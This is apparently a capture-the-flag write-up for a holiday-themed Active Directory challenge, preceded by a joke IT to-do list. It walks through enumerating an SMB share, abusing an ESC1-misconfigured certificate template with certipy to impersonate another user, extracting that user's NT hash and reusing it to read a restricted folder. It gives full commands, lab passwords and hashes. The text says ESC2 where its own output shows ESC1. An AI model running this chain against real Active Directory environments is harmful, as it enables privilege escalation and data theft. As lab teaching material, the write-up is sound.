# Geese Islands IT & Security Todo List

- [X] Sleigh GPS Upgrade: Integrate the new "Island Hopper" module into Santa's sleigh GPS. Ensure Rudolph's red nose doesn't interfere with the signal.
- [X] Reindeer Wi-Fi Antlers: Test out the new Wi-Fi boosting antler extensions on Dasher and Dancer. Perfect for those beach-side internet browsing sessions.
- [ ] Palm Tree Server Cooling: Make use of the island's natural shade. Relocate servers under palm trees for optimal cooling. Remember to watch out for falling coconuts!
- [ ] Eggnog Firewall: Upgrade the North Pole's firewall to the new EggnogOS version. Ensure it blocks any Grinch-related cyber threats effectively.
- [ ] Gingerbread Cookie Cache: Implement a gingerbread cookie caching mechanism to speed up data retrieval times. Don't let Santa eat the cache!
- [ ] Toy Workshop VPN: Establish a secure VPN tunnel back to the main toy workshop so the elves can securely access to the toy blueprints.
- [ ] Festive 2FA: Roll out the new two-factor authentication system where the second factor is singing a Christmas carol. Jingle Bells is said to be the most secure.
````
As per the TODO List Alabster is planning to implement ${\color{green}Gingerbread}$  cookie cache 🍪 
</details>

### Active Directory
Difficult: 🎄🎄🎄🎄

Go to Steampunk Island and help Ribb Bonbowford audit the Azure AD environment. What's the name of the secret file in the inaccessible folder on the FileShare?

> [!TIP]
> Misconfiguration ADventures
> From: Alabaster Snowball
> Objective: Active Directory
> Certificates are everywhere. Did you know Active Directory (AD) uses certificates as well? Apparently the service used to manage them can have misconfigurations too.

<details>
 <summary>Solution</summary>

Ribb Bonbowford (Coggoggle Marina)
Hello, I'm Ribb Bonbowford. Nice to meet you!

I'm worried because our Active Directory server is hosted there and Wombley Cube's research department uses one of its fileshares to store their sensitive files.

I'd love for you to help with auditing our Azure and Active Directory configuration and ensure there's no way to access the research department's data.

Since you have access to Alabaster's SSH account that means you're already in the Azure environment. Knowing Alabaster, there might even be some useful tools in place already.

Ribb Bonbowford expressed his concerns about the AD and hinted we are already in the AD environment. Let's use the information obtained from previous tasks and work for this challenge.

Upon listing the files in Alabaster home directory we see the impacket tool suite is present. Let's use the smbclient package to access the SMB share using credentials obtained in Azure Key vault. 

````
alabaster@ssh-server-vm:~/impacket$ smbclient.py elfy@10.0.0.53
Impacket v0.11.0 - Copyright 2023 Fortra
Password:
````
```
# shares
ADMIN$
C$
D$
FileShare
IPC$
NETLOGON
SYSVOL
# use FIleShare
# ls
drw-rw-rw-          0  Thu Jan 18 01:12:55 2024 .
drw-rw-rw-          0  Thu Jan 18 01:12:52 2024 ..
-rw-rw-rw-     701028  Thu Jan 18 01:12:54 2024 Cookies.pdf
-rw-rw-rw-    1521650  Thu Jan 18 01:12:55 2024 Cookies_Recipe.pdf
-rw-rw-rw-      54096  Thu Jan 18 01:12:55 2024 SignatureCookies.pdf
drw-rw-rw-          0  Thu Jan 18 01:12:54 2024 super_secret_research
-rw-rw-rw-        165  Thu Jan 18 01:12:55 2024 todo.txt
# get todo.txt
# exit
alabaster@ssh-server-vm:~/impacket$ cat todo.txt 
1. Bake some cookies.
2. Restrict access to C:\FileShare\super_secret_research to only researchers so everyone cant see the folder or read its contents
3. Profit
````
 Next task would be to get access to **C:\FileShare\super_secret_research** 

 Remember the task Reportinator where it says there is a ADCS vulnerability in the AD Environment, we will explore that. Since we have the certipy already present in Alabaster host we will use it to find if there are any 
  
````
alabaster@ssh-server-vm:~/impacket$ certipy find -vulnerable -u elfy -p J4\`ufC49/J4766 -dc-ip 10.0.0.53 -debug
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[+] Authenticating to LDAP server
[+] Bound to ldaps://10.0.0.53:636 - ssl
[+] Default path: DC=northpole,DC=local
[+] Configuration path: CN=Configuration,DC=northpole,DC=local
[+] Adding Domain Computers to list of current user's SIDs
[+] List of current user's SIDs:
     NORTHPOLE.LOCAL\Domain Computers (S-1-5-21-1242573302-2981867581-2555354284-515)
     NORTHPOLE.LOCAL\Users (NORTHPOLE.LOCAL-S-1-5-32-545)
     NORTHPOLE.LOCAL\Everyone (NORTHPOLE.LOCAL-S-1-1-0)
     NORTHPOLE.LOCAL\Domain Users (S-1-5-21-1242573302-2981867581-2555354284-513)
     NORTHPOLE.LOCAL\Authenticated Users (NORTHPOLE.LOCAL-S-1-5-11)
     NORTHPOLE.LOCAL\elfy (S-1-5-21-1242573302-2981867581-2555354284-1104)
[*] Finding certificate templates
[*] Found 34 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 12 enabled certificate templates
[+] Trying to resolve 'npdc01.northpole.local' at '10.0.0.53'
[*] Trying to get CA configuration for 'northpole-npdc01-CA' via CSRA
[+] Trying to get DCOM connection for: 10.0.0.53
[!] Got error while trying to get CA configuration for 'northpole-npdc01-CA' via CSRA: CASessionError: code: 0x80070005 - E_ACCESSDENIED - General access denied error.
[*] Trying to get CA configuration for 'northpole-npdc01-CA' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[+] Connected to remote registry at 'npdc01.northpole.local' (10.0.0.53)
[*] Got CA configuration for 'northpole-npdc01-CA'
[+] Resolved 'npdc01.northpole.local' from cache: 10.0.0.53
[+] Connecting to 10.0.0.53:80
[*] Saved BloodHound data to '20240118082058_Certipy.zip'. Drag and drop the file into the BloodHound GUI from @ly4k
[*] Saved text output to '20240118082058_Certipy.txt'
[*] Saved JSON output to '20240118082058_Certipy.json'
````
The output of Certipy shows that it is vulnerable to ESC2
[!] Vulnerabilities
ESC1 : 'NORTHPOLE.LOCAL\\Domain Users' can enroll, enrollee supplies subject and template allows client authentication
   
ESC1 is when a certificate template permits Client Authentication and allows the enrollee to supply an arbitrary Subject Alternative Name (SAN).
For ESC1, we can request a certificate based on the vulnerable certificate template and specify an arbitrary UPN or DNS SAN with the -upn and -dns parameter, respectively.

````
alabaster@ssh-server-vm:~$ certipy req -u elfy@northpole.local -p J4\`ufC49/J4766 -ca northpole-npdc01-CA -dc-ip 10.0.0.53 -template NorthPoleUsers -upn alabaster@northpole.local -dns npdc01.northpole.local
````
````
alabaster@ssh-server-vm:~$ certipy req -u elfy@northpole.local -p J4\`ufC49/J4766 -ca northpole-npdc01-CA -dc-ip 10.0.0.53 -template NorthPoleUsers -upn alabaster@northpole.local
````
````
alabaster@ssh-server-vm:~$ certipy auth -pfx alabaster.pfx -dc-ip 10.0.0.53 -debug
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: alabaster@northpole.local
[*] Trying to get TGT...
[-] Got error while trying to request TGT: Kerberos SessionError: KDC_ERROR_CLIENT_NOT_TRUSTED(Reserved for PKINIT)
````
Could not get anything for alabaster let's search if we can find any other used for whom we can request a certificate.
````
alabaster@ssh-server-vm:~/impacket$ GetADUsers.py -all -dc-ip 10.0.0.53 'northpole.local/elfy:J4`ufC49/J4766'
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Querying 10.0.0.53 for information about domain.
Name                  Email                           PasswordLastSet      LastLogon           
--------------------  ------------------------------  -------------------  -------------------
alabaster                                             2024-01-19 01:02:52.517117  2024-01-19 01:16:50.870757 
Guest                                                 <never>              <never>             
krbtgt                                                2024-01-19 01:10:45.513065  <never>             
elfy                                                  2024-01-19 01:13:05.023950  2024-01-19 21:58:23.893726 
wombleycube                                           2024-01-19 01:13:05.164594  2024-01-19 21:56:04.315004 
````
Wombleycube could help us, let's relauch certipy with Wombley
````
alabaster@ssh-server-vm:~$ certipy req -u elfy@northpole.local -p J4\`ufC49/J4766 -ca northpole-npdc01-CA -dc-ip 10.0.0.53 -template NorthPoleUsers -upn wombleycube@northpole.local
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 22
[*] Got certificate with UPN 'wombleycube@northpole.local'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'wombleycube.pfx'
alabaster@ssh-server-vm:~$ certipy auth -pfx wombleycube.pfx -dc-ip 10.0.0.53 -debugCertipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: wombleycube@northpole.local
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'wombleycube.ccache'
[*] Trying to retrieve NT hash for 'wombleycube'
[*] Got hash for 'wombleycube@northpole.local': aad3b435b51404eeaad3b435b51404ee:5740373231597863662f6d50484d3e23
````
Let's connect to the fileshare with wombleycube hash and read what is inside ** super_secret_research**
````
alabaster@ssh-server-vm:~/impacket$ smbclient.py -hashes aad3b435b51404eeaad3b435b51404ee:5740373231597863662f6d50484d3e23 northpole.local/wombleycube@10.0.0.53
# use FileShare
# ls
drw-rw-rw-          0  Fri Jan 19 01:14:00 2024 .
drw-rw-rw-          0  Fri Jan 19 01:13:56 2024 ..
-rw-rw-rw-     701028  Fri Jan 19 01:13:59 2024 Cookies.pdf
-rw-rw-rw-    1521650  Fri Jan 19 01:14:00 2024 Cookies_Recipe.pdf
-rw-rw-rw-      54096  Fri Jan 19 01:14:00 2024 SignatureCookies.pdf
drw-rw-rw-          0  Fri Jan 19 01:13:59 2024 super_secret_research
-rw-rw-rw-        165  Fri Jan 19 01:14:00 2024 todo.txt
# cd super_secret_research
# ls
drw-rw-rw-          0  Fri Jan 19 01:14:00 2024 .
drw-rw-rw-          0  Fri Jan 19 01:14:00 2024 ..
-rw-rw-rw-        231  Fri Jan 19 01:14:00 2024 InstructionsForEnteringSatelliteGroundStation.txt
# get InstructionsForEnteringSatelliteGroundStation.txt
````
The task is completed by giving the name of the file.

The text file contained

$\color{yellow}{\textsf{Note to self:}}$

$\color{gold}{\textsf{To enter the Satellite Ground Station (SGS), say the following into the speaker:}}$

$\color{yellow}{\textsf{And he whispered, 'Now I shall be out of sight;}}$
$\color{gold}{\textsf{So through the valley and over the height.'}}$
$\color{yellow}{\textsf{And he'll silently take his way.}}$

</details>
